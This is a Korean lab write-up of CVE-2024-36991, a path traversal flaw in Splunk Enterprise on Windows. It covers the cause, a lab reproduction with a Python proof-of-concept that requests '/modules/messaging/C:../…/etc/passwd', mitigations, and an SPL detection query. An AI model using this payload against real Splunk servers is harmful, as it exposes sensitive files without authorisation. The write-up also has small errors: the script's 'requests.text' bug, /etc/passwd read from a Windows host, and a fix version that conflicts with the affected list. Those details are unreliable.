








# cve-2024-36991
{: .no_toc }

Splunk Enterprise Path Traversal 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Splunk][Splunk]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[PoC][PoC]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
Splunk의 /modules/messaging/ 엔드포인트에서 발생하는 경로 탐색(Path Traversal) 취약점

## 1.2 취약 대상
- Windows 환경에서 동작하는 Splunk Enterprise에서 다음 버전이 영향
- Splunk Enterprise 9.2.0 ~ 9.2.1
- Splunk Enterprise 9.2.2
- Splunk Enterprise 9.1.0 ~ 9.1.4
- Splunk Enterprise 9.1.5
- Splunk Enterprise 9.0.0 ~ 9.0.9
- Splunk Enterprise 9.0.10

## 1.3 공격 원리
- 취약점은 /modules/messaging/ 엔드포인트에 조작된 경로를 포함한 url을 요청
- Splunk Web은 해당 경로를 os.path.join[주1] 함수를 사용하여 결합 
- Winodws 환경에서는 중복된 드라이브 문자가 제거되는 특성을 이용
- 공격자는 이 취약점을 악용하여 민감한 파일에 접근하여 정보를 탈취



---

## 1.4 Splunk의 취약한 설정 분석
- CVE-2024-36991의 취약점이 존재하는 환경은 다음과 같은 조건을 만족
- Splunk Web 활성화, Windows 환경에서 동작, modules/messaging 엔드포인트가 open
- 이러한 조건을 갖춘 환경에서는, 공격자가 조작된 URL을 통해 경로 탐색(Path Traversal) 공격 가능 

<br>

- 이 취약점은 Splunk Web이 활성화된 인스턴스에서 발생
- Splunk Web의 설정 파일(web.conf)에서 startwebserver 옵션을 1로 설정하여 취약한 환경 구현



<br> 

- Windows환경에서 os.path.join() 함수가 어떻게 작동하는지 확인
- Splunk의 /modules/messaging/ 엔드포인트는 파일을 불러올 때 사용자가 입력한 경로를 합쳐 처리
- 정상적인 경우, os.path.join()은 경로를 연결 (C:\Program Files\Splunk\data\logs\test.log)



 <br>

- 비정상적인 경우, 공격자가 새로운 “C:\\” 경로를 추가
- “C:\\”(드라이브 문자가 다시 등장하는 경우) 이후의 값을 기준으로 새로운 경로를 생성
- 결과적으로 기본 경로가 무시되고 공격자가 원하는 파일로 접근(C:\\SKT\\Infra보안\\skt_nsc.excel)



---

## 1.5 환경 구성
- Victim: Windows10 (IP: 192.168.253.123)
- Attacker: Windows10 (IP: 192.168.253.77)

<br>

- 취약한 Splunk 서버 환경 구축 (Splunk Enterprise 9.1.2)
- 취약점이 존재하는 Splunk Enterprise 9.1.2 서버 구축



---

## 1.6 공격 재현
- Python을 이용한 조작된 GET 요청을 통한 Splunk 서버 공격
- 조작된 경로 생성 (“/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd”)
- 조작된 GET 요청을 서버로 전송하고, 응답에서 /etc/passwd 파일 노출 확인

```py
url = "http://192.168.253.123:8000"
attack_url = "/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd"
def attack_request(url):
    try:
        fullurl = f"{url}{attack_url}" # 조작된 경로를 포함한 URL 생성
        response = requests.get(fullurl, verify=False)
        if response.status_code == 200:
            body = requests.text
            # 응답에서 'admin:' 문자열이 포함되면 출력
            if body is not None and 'admin:' in body:
                print_message('vulnerable', f"Vulnerable: {url}")
                print(body) # 서버에서 응답받은 파일 내용 출력
        else:
            print_message("warning", f"Not Vulnerable: {url}")
            return response.text 
    except requests.RequestException:
        return None
```

<br>

- 실제 /etc/passwd 파일은 아래와 같음



<br>

- 공격 실행 결과, 서버에서 /etc/passwd 파일의 실제 내용이 성공적으로 출력



<br>

- Burp Suite를 사용하여 실제 페이로드의 응답을 확인한 결과, /etc/passwd 파일의 내용이 포함



---

## 1.7 대응 방안
- Splunk Enterprise 버전 9.2.1 이상으로 업데이트
- Splunk Web 비활성화
- Splunk /modules/messaging/ 경로 탐색(Path Traversal) 공격 탐지 쿼리

```spl
`splunkd_web` method=GET uri_path="/*/modules/messaging/*..*" 
| stats min(_time) as firstTime max(_time) as lastTime values(method) as method values(uri_path) as uri_path by host 
| `security_content_ctime(firstTime)` 
| `security_content_ctime(lastTime)` 
| `splunk_unauthenticated_path_traversal_modules_messaging_filter`
```

--- 

[NVD]: https://nvd.nist.gov/vuln/detail/cve-2024-36991
[Splunk]: https://advisory.splunk.com/advisories/SVD-2024-0711
[PoC]: https://github.com/bigb0x/CVE-2024-36991
